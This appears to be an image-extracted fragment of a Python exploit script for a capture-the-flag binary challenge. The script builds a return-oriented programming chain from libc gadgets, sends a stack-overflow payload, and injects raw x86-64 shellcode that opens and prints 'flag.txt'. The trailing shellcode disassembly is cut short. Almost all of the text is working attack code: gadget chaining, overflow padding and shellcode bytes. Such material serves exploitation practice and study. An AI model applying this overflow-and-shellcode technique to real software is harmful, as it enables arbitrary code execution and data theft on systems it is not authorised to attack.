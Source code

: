 ```python
# rdx=200

rchain.raw(find_gadget(['pop rsi', 'ret'])) # buffer
rchain.raw(ADDR_SHELLCODE)

rchain.raw(find_gadget(['syscall', 'ret']))


#################### DEBUG -----> checks if the shellcode was written correctly
# ; sys_write(stdout, shellcode_addr, 200)
# mov rax, 1
# mov rdi, 1
# mov rsi, shellcode_addr
# syscall

rchain.raw(find_gadget(['pop rax', 'ret']))
rchain.raw(1) # sys_write

rchain.raw(find_gadget(['pop rdi', 'ret']))
rchain.raw(1) # fd stdout

rchain.raw(find_gadget(['pop rsi', 'ret']))
rchain.raw(ADDR_SHELLCODE) # buffer

rchain.raw(find_gadget(['syscall', 'ret']))


#################### place in rsi the start of the shellcode to execute before jumping to it (offset 9 because of the flag path)
rchain.raw(find_gadget(['pop rsi', 'ret']))
rchain.raw(ADDR_SHELLCODE + 9)

# push rsi ; ret
a = 0x0002c446 if IS_LOCAL else 0x00041823
rchain.raw(a + libc.address)

# Loop back through the program to ensure emptying of the stdout buffer
rchain.raw(RELOOP_ADDR)

# ----------------------------------------------------------------------------------
try:
	# Send the ropchain 
	p.sendline(b'B'*(72-8) + p64(stack+(8*14)) + rchain.chain())

	if IS_GDB: # if gdb is open, wait before sending shellcode
		input()

	# send shellcode
	p.sendline(b'flag.txt\x00' + b'\x90'*60 + b'\x48\x31\xC9\x48\x31\xD2\x48\xC7\xC3\x00\x00\x01\x00\x48\xC7\xC0\x05\x00\x00\x00\xCD\x80\x48\x89\xC7\x48\x31\xC0\x48\xC7\xC6\x00\x00\x01\x00\x48\xC7\xC2\x3C\x00\x00\x00\x0F\x05\x48\xC7\xC0\x01\x00\x00\x00\x48\xC7\xC7\x01\x00\x00\x00\x48\xC7\xC6\x00\x00\x01\x00\x48\xC7\xC2\x3C\x00\x00\x00\x0F\x05\xc3')
	
except EOFError:
	print("FAILED")

p.interactive()


# ------------------------- Shellcode
# ; fd = sys_open("flag.txt", "r", NULL)
# 0:  48 31 c9                xor    rcx,rcx
# 3:  48 31 d2                xor    rdx,rdx
```